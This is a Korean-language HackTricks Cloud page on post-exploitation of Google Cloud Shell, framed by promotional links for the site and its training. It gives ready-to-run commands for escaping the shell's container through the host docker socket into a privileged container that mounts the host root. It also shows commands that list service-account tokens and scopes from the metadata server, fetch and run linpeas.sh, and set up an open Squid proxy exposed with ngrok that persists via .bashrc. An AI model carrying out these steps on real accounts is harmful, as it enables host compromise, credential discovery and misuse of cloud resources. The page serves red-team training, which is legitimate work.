 # GCP - 클라우드 쉘 후반 공격

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud**에 PR을 제출하여 **해킹 트릭을 공유**하세요
* &#x20;github 저장소.

</details>

## 클라우드 쉘

클라우드 쉘에 대한 자세한 정보는 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 컨테이너 탈출

Google 클라우드 쉘이 컨테이너 내에서 실행되는 것에 유의하십시오. **쉽게 호스트로 탈출**할 수 있습니다. 아래와 같이 수행하면 됩니다:

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Google에서는 이를 취약점으로 간주하지는 않지만 해당 환경에서 무슨 일이 일어나고 있는지 더 넓은 시야를 제공합니다.

또한 호스트에서 서비스 계정 토큰을 찾을 수 있다는 점에 유의하십시오:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

다음과 같은 범위로:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

LinPEAS를 사용하여 메타데이터 열거:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

[https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions)을 사용한 후 **권한이 발견되지 않았습니다**...

### 프록시로 사용

Google 클라우드 셸 인스턴스를 프록시로 사용하려면 다음 명령을 실행해야 합니다(.bashrc 파일에 삽입할 수도 있음):
```bash
sudo apt install -y squid
```
그냥 알려드리자면 Squid는 http 프록시 서버입니다. 다음 설정을 사용하여 **squid.conf** 파일을 만드세요:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
**squid.conf** 파일을 **/etc/squid**로 복사합니다.
```bash
sudo cp squid.conf /etc/squid
```
마지막으로 squid 서비스를 실행하십시오:
```bash
sudo service squid start
```
외부에서 프록시를 사용할 수 있도록 ngrok을 사용하십시오:
```bash
./ngrok tcp 3128
```
프록시를 실행한 후 tcp:// URL을 복사합니다. 브라우저에서 프록시를 실행하려면 tcp:// 부분과 포트를 제거하고 포트를 브라우저 프록시 설정의 포트 필드에 넣는 것이 좋습니다 (squid는 http 프록시 서버입니다).

시작 시 더 잘 사용하기 위해 .bashrc 파일에 다음 줄이 있어야 합니다:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
지침은 [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 복사되었습니다. 다른 미친 아이디어를 확인하려면 해당 페이지를 확인하십시오. 클라우드 쉘에서 어떤 종류의 소프트웨어(데이터베이스 및 심지어 윈도우)를 실행하는 방법에 대해 배우고 연습하세요.

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}
